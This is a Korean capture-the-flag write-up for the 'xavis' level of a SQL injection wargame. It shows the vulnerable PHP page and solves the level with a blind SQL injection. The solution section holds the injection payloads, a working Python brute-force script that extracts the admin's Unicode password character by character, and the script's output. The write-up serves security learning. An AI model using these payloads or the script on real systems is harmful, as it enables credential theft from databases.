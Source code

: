 # xavis

## 1. Code
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/regex|like/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("xavis"); 
  highlight_file(__FILE__); 
?>
```

## 2. Condition
- `regex`와 `like`를 필터링한다. (..?)

## 3. Solution

이번 문제는 상당히 애를 먹었던 문제이다.<br>
우선, 하나 말하자면 패스워드는 유니코드다.<br>
`_`가 필터링되지 않았다면, `bit_length`함수를 통해 쉽게 알 수 있었겠다.<br>


<br>
`ascii`함수는 안되고 `ord`는 되는 모습을 보고 유니코드임을 직감하였다.<br>


그 많은 범위를 다 확인해볼 시간적 여유가 없기때문에, `BMP`부분(Basic Multilingual Plane)을 확인해보았다.<br>
그 중에서도 크게 0x100씩 범위를 지정하여 대소비교를 해주어, 세분화 시켰다.<br>

변수명 | 값
---|---
`pw` | 1234' or id='admin' and ord(substr(pw,i,1))>j #



<br>이후, 찾은 범위 내에서 정확한 값을 찾았다.<br>
빈 문자열인 경우 0을 반환하기에, 0이 나올때 까지 진행하였다.<br>

변수명 | 값
---|---
`pw` | 1234' or id='admin' and ord(substr(pw,i,1))=j #



스크립트 속 변수 `i`와 `j`를 두는데, 역할은 다음과 같다.
변수명 | 값
---|---
`i` | pw의 한 문자 index
`j` | 문자 값 비교를 위한 변수 (0x00 ~ 0xffff)


```python
import requests

cookie = {'PHPSESSID' : '~~~~'}

fin_flag = False
pw_value = ""
for i in range(20):
    for j in range(0x00, 0x10000, 0x100):
        url = "https://los.rubiya.kr/chall/xavis_04f071ecdadb4296361d2101e4a2c390.php?\
                pw=1234' or id='admin' and ord(substr(pw,%d,1))<%d %%23" % (i+1, j)
        res = requests.get(url, cookies=cookie)

        if "Hello admin" in res.text:
            range_st = j - 0x100
            range_fin = j
            print("pw(%d) in %s ~ %s" % (i+1, hex(range_st), hex(range_fin)))
            break
    
    for j in range(range_st, range_fin+1):
        url = "https://los.rubiya.kr/chall/xavis_04f071ecdadb4296361d2101e4a2c390.php?\
                pw=1234' or id='admin' and ord(substr(pw,%d,1))=%d %%23" % (i+1, j)
        res = requests.get(url, cookies=cookie)

        if "Hello admin" in res.text:
            if (j==0):
                print("done!")
                fin_flag = True
                break
                
            pw_value += chr(j)
            print("pw(%d) : %s" % (i+1, pw_value))
            break
    
    if(fin_flag):
        break
            
print("pw :", pw_value)
```

스크립트 결과는 다음과 같다.
```
pw(1) in 0xc600 ~ 0xc700
pw(1) : 우
pw(2) in 0xc600 ~ 0xc700
pw(2) : 우왕
pw(3) in 0xad00 ~ 0xae00
pw(3) : 우왕굳
pw(4) in 0x0 ~ 0x100
done!
pw : 우왕굳
```



나온 pw 값을 최종적으로 대입해 보면 문제가 해결된다.
변수명 | 값
---|---
`pw` | 우왕굳